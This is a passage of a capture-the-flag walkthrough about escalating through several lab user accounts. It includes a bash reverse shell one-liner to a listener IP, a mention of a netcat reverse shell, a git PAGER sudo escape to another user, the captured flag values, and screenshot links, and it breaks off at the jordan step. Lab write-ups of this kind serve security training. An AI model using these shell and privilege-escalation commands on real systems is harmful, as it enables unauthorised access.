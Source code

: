 bash -i >& /dev/tcp/10.2.54.209/8080 0>&1

Add a netcat reverse shell

<img src="https://imgur.com/5s8cllq.png"/>

<img src="https://imgur.com/05W1VmY.png"/>

And boom we get a shell as user `dalia`

dalia{4a94a7a7bb4a819a63a33979926c77dc}

### What is silvio's flag?

Doing `sudo -l`

<img src="https://imgur.com/xAcO6ud.png"/>

We can see that this user can run `zip` as user `silvio`

<img src="https://imgur.com/rH3rg0t.png"/>

<img src="https://imgur.com/6kwOM7b.png"/>

silvio{657b4d058c03ab9988875bc937f9c2ef}

### What is reza's flag?

Running `sudo -l` on this user

<img src="https://imgur.com/5yCGbUT.png"/>

Now we will be able to escalate our privileges to rez through `git`

<img src="https://imgur.com/PvGii08.png"/>

```
sudo -u reza PAGER='sh -c "exec sh 0<&1"' /usr/bin/git -p help

```
<img src="https://imgur.com/6bpBaQz.png"/>

<img src="https://imgur.com/XyPatAi.png"/>

reza{2f1901644eda75306f3142d837b80d3e}

### What is jordan's flag?

<img src="https://imgur.com/jSAYt8e.png"/>

Now this time we can run a python script as user `jordan`

<img src="https://imgur.com/iUQz8pE.png"/>
